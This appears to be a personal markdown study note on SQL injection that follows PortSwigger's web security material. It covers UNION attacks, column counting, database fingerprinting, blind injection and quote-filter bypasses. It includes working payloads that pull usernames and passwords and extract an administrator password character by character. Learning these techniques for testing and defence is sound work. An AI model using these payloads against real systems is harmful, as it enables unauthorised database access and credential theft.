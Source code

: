 ### SQL Injection

Cheat sheet: https://portswigger.net/web-security/sql-injection/cheat-sheet

**What is SQL injection**
- Inserting into SQL queries (commonly SELECT, but sometimes others like UPDATE or INSERT)
- `https://insecure-website.com/products?category=Gifts` -> `SELECT * FROM products WHERE category = 'Gifts' AND released = 1`
  - Often easiest to figure out hte query by trying to fill out the rest of the query ourselves (so something like `Gifts'--` to get the same data)

**UNION attacks**
- `UNION` allows executing an additional `SELECT` query and appending results to the original
  - `SELECT a, b FROM table1 UNION SELECT c, d FROM table2` will return values from a and b in table1 and values c and d from table2
- UNION queries require:
  - Individual queries returning same number of columns
  - Data types in column must be compatible
- When commenting, make sure to try `--`, `#`, `-- //`, `# //`, etc.
- Determining column requirements
  - Can use `' ORDER BY 1--`, `' ORDER BY 2--`, and so on to see how many columns exist
  - Can also use `' UNION SELECT NULL, NULL, NULL, {etc}--` for the same purpose - `NULL` is convertible to every common data type
- Finding useful data types
  - String data is often useful, so finding it is important
  - `' UNION SELECT 'a', NULL, NULL, {etc}--` to find which columns allow strings
  - Can use these columns to retrieve interesting data, like usernames/passwords
- If we want to select multiple instances or 2nd/3rd instances from a database, use `LIMIT` to limit the number of results and `OFFSET` to offset which to select from the database
  - `' UNION SELECT username,password FROM users LIMIT 999 OFFSET 0--` would give enough space (999) and set the offset at 0, appending the entire table onto the result
  - Alternatively, we can concatenate the values together into a single column
    - Would look something like this for MySQL: `' UNION SELECT username || password FROM users--`


**Examining the Database**
- We want to find the type, version, table, and columns of the database
- Type/Version:
  - Microsoft/MySQL: `SELECT @@version`
  - Oracle: `SELECT * FROM v$version`
    - - Every `SELECT` query in Oracle requires the `FROM` keyword - `DUAL` can be used as an always-valid table
      - `' UNION SELECT NULL FROM DUAL--`
    - Allows `--` or `#` for comments
  - PostgreSQL: `SELECT version()`
- Database contents:
  - `information_schema.tables` contains table information
    - Columns are usually like `TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE`
  - To see columns in tables, a query like `SELECT * FROM information_schema.columns WHERE table_name = 'Users'` does the trick
    - Tables have columns like the following: `TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  COLUMN_NAME  DATA_TYPE`

**Blind SQL Injection**
- Blind SQLi is when the neither database query NOR errors are present in the HTTP response 
- Can identify blind injection by getting normal results to appear with A SQL query `' AND '1'='1`
  - Not commented out since the 
- Error-based blind SQLi:
  - Do error-based character comparisons to figure out characters
  - `' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm`

**Bypassing Defenses**
- If single quotes are totally blacklisted, a `\` as the first parameter can actually unlock an apostrophe to use as part of the second payload
- Backslashes can also be used for bypassing single quotes being replaced with double quotes
- 